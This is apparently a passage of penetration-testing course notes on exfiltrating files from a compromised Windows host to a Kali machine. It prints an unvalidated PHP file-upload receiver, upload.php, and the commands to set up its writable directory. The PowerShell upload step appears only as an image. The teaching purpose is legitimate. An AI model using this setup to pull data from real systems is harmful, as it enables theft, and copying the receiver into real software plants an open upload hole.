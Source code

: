  # - Using PowerShell to rebuild nc.exe

16.2.4 Windows Uploads Using Windows Scripting Languages

Upload from windows to kali

• In certain scenarios, we may need to exfiltrate data from a target network using a Windows client.
 
• This can be complex since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default.

• Fortunately, if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShellclass to upload data to our Kali machine through an HTTP POST request.

• To do this, we can create the following PHP script and save it as upload.php in our Kali web root directory, /var/www/html:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/39.jpg)

<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
# Listing 490 - PHP script to receive HTTP POST request

•  The PHP code in Listing 490 will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.
 
•  Next, we must create the uploads folder and modify its permissions, granting the www-data user ownership and subsequent write permissions:
 
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ ps -ef | grep apache
root 1946 1 0 21:39 ? 00:00:00 /usr/sbin/apache2 -k start
www-data 1947 1946 0 21:39 ? 00:00:00 /usr/sbin/apache2 -k start
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x 4 root root 4096 Feb 2 00:33 .
drwxr-xr-x 13 root root 4096 Sep 20 14:57 ..
drwxr-xr-x 2 root root 4096 Feb 2 00:33 html
drwxr-xr-x 2 www-data www-data 4096 Feb 2 00:33 uploads
 
• Note that this would allow anyone interacting with uploads.php to upload files to our Kali virtual machine.
 
• With Apache and the PHP script ready to receive our file, we move to the compromised Windows host and invoke the Upload File method from the System.Net.WebClient class to upload the document we want to exfiltrate, 
 in this case, a file named important.docx:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/40.jpg)
